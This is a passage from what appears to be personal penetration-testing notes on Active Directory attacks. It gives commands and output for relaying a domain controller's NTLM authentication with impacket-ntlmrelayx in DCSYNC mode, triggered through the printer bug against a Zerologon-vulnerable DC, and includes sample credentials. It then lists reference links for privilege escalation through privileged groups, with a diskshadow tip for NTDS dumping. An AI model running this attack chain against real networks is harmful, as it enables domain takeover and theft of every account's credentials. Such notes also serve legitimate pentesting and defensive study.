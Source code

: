 ```bash
  
To exploit it given that the prerequisites are met, you can set up ntlmrelayx in DCSYNC relay mode and target DC1, while triggering the printer bug on DC2:

We can change roles in case it fails, but the right way to do it is PrinterBug on the other DC and the relay to the DC vulnerable to Zerologon.

Set up relay in DCSYNC relay mode and target the vulnerable DC (DC):


└─$ impacket-ntlmrelayx -t DCSYNC://dc.dom.local -smb2support                                                                                                      
...
[*] Multirelay disabled

[*] Servers started, waiting for connections


PrinterBug on the other DC (TEST) having valid creds on that DC and being the last IP my attacking host:


└─$ python /opt/Hacking/WINDOWS/AD/krbrelayx/printerbug.py dom.local/user:'Pass1234!'@TEST 10.10.14.5                                                               
[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies                                                                                                    
                                                                                                                                                                             
[*] Attempting to trigger authentication via rprn RPC at SRV01                                                                                                               
[*] Bind OK                                                                                                                                                                  
[*] Got handle                                                                                                                                                               
RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.                                                                                    
[*] Triggered RPC backconnect, this may or may not have worked 
```
{% endcode %}

## Privileged groups

{% code overflow="wrap" fullWidth="true" %}
```bash
# Privileged Groups
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

# Server Operators
https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators
https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

# Account Operators
https://www.whiteoaksecurity.com/blog/account-operators-privilege-escalation/

# Backup Operators
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#a-d-attack
https://pentestlab.blog/tag/ntds-dit/
IMPORTANT: Include space or X after the last character of each line (diskshadow deletes last char of each line when we execute script to execute on diskshadow /s script.txt)

```